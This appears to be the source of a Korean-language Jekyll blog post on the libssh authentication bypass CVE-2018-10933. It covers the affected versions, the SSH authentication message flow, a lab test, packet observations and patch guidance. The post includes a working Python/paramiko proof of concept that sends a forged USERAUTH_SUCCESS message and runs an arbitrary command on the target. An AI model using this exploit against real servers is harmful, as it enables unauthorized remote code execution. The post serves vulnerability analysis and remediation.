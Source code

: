 ```yaml
---
layout: post
comments: true
categories: posts
title: CVE-2018-10933 libssh authentication bypass
subtitle: This is an important security and maintenance release in order to address CVE-2018-10933.
author: cainstorm
featured-image: /images/header/header_001.jpg
tags: [vulnerability]
date-string: OCTOBER 23, 2018
---
```


<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

### Description
원격 로그인 프로토콜인 Secure Shell(SSH) 구축에 사용되는 모듈 libssh 이용 서버의 인증 우회공격 취약점(로그인 인증 과정 없이 원격코드 실행 가능)
공격 호스트에서 "SSH2_MSG_USERAUTH_SUCCESS" 메시지를 전송하여 이미 인증이 성공적으로 이루졌다는 패킷 전달로 인증우회

> **CVE ID : CVE-2018-10933**
> VCSS 3.X Severity and Metrics: 
> - CNA : Red Hat, Inc.
> - Base Score : 9.1 CRITICAL
> - Vector : CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

영향받는 Version
- libssh version >= 0.6
- libssh version < 0.7.6
- libssh version < 0.8.4

해당 취약점은 libSSH가 인증을 진행하기 위해 **SSH_MSG_USERAUTH_REQUEST** 상태로 대기중 일때 PoC 코드에서 전송된 **SSH_MSG_USERAUTH_SUCCESS** 패킷을 서버가 수신하게 되면 공격자가 정상적으로 인증되었다고 판단하여 연결을 허용하게 된다.

<center>
		<img src="/images/2018-10-28/2018-10-28-vul-001.jpg">
</center>

- SSH_MSG_USERAUTH_REQUEST(50) : 클라이언트가 보내는 인증 요청 방식
- SSH_MSG_USERAUTH_FULLURE(51) : 하나 이상의 인증 방법을 요구할 경우
- SSH_MSG_USERAUTH_SUCCESS(52) : 서버가 인증을 수용

정상적인 인증과정
1. 클라이언트가 서버에게 인증 방법 문자열이  'none'인 SSH_MSG_USERAUTH_REQUEST 를 요청
1. 서버는 클라이언트가 보낸 사용자 이름이 유효한지 여부 확인
  유효하지 않을 시, SSH_MSG_USERAUTH_FAILURE를 보내고 연결 설정을 종료하며, 서버는 SSH_MSG_USERAUTH_REQUEST를 전송
1. 클라이언트는 인증 방법 중 하나를 선택하고, 선택된 인증방법과 필요한 필드와 함께 SSH_MSG_USERAUTH_REQUEST를 전송
1. 서버는 클라이언트가 보낸 사용자 이름이 유효한지 여부 확인
1. 요구된 모든 인증에 성공하면, 서버는 SSH_MSG_USERAUTH_SUCCESS 메시지를 송신하고 인증 프로토콜 종료  
 


### Testing Vulnerability 
Attacker :Kali linux (192.168.46.130)<br>
Victim : Ubuntu 16.04.6 LTS (192.168.46.137) -> Docker_apache solr 8.1.1 (172.17.0.3)


```
#!/usr/bin/python3

import sys
import paramiko
import socket

s = socket.socket()
s.connect(("192.168.46.142",2222))
m = paramiko.message.Message()
t = paramiko.transport.Transport(s)
t.start_client()
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)  // 인증 우회를 위한 코드
t._send_message(m)
c = t.open_session(timeout=5)
c.exec_command(sys.argv[1])
out = c.makefile("rb",2048)
output = out.read()
out.close()
print (output)
```

<br>
<center>
    <div class="photoset-grid-custom" data-layout="122">
        <img src="/images/2018-10-28/2018-10-28-vul-002.jpg">
        <img src="/images/2018-10-28/2018-10-28-vul-003.jpg">
        <img src="/images/2018-10-28/2018-10-28-vul-004.jpg">
		<img src="/images/2018-10-28/2018-10-28-vul-005.jpg">
        <img src="/images/2018-10-28/2018-10-28-vul-006.jpg">
    </div>
</center>

원격코드 실행 명령 중 서버와 통신 내역 확인 시, 암호화된 패킷으로 인패 원격실행 명령(hostname) 부분을 확인할 수 없으나
서버측에서 노출되는 libssh 정보 문자열 **SSH-2.0-libssh_0.8.3** 과 공격자 측에서 Poc 실행 중 사용되는 파이썬 모듈명 **paramisk** 가 확인된다.
- paramiko : 파이썬에서 가장 많이 사용되는 SSH Library 모듈(telnet 은 telnetlib)
<br>
### Solution
- 제조사 홈페이지를 참고하여 최신버전으로 보안 업데이트 수행
- 0.7.6 버전으로 업데이트(0.7번대 및 이전 버전 사용자)
- 0.8.4 버전으로 업데이트(0.8번대 및 이전 버전 사용자)

<script src="/assets/js/jquery.photoset-grid.js"></script>

<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',
  
    // Wrap the images in links
    highresLinks: true,
  
    // Asign a common rel attribute
    rel: 'print-gallery',

    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>
<br>
### References
---
- https://www.guardicore.com/2018/10/libssh-new-vulnerability-allows-authentication-bypass
- https://www.kitploit.com/2018/10/libssh-scanner-script-to-identify-hosts.html
- https://koromoon.blogspot.com/2018/10/cve-2018-10933-libssh.html
- https://www.youtube.com/watch?v=ZSWQjmfcn4g
- https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=27704

---
{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
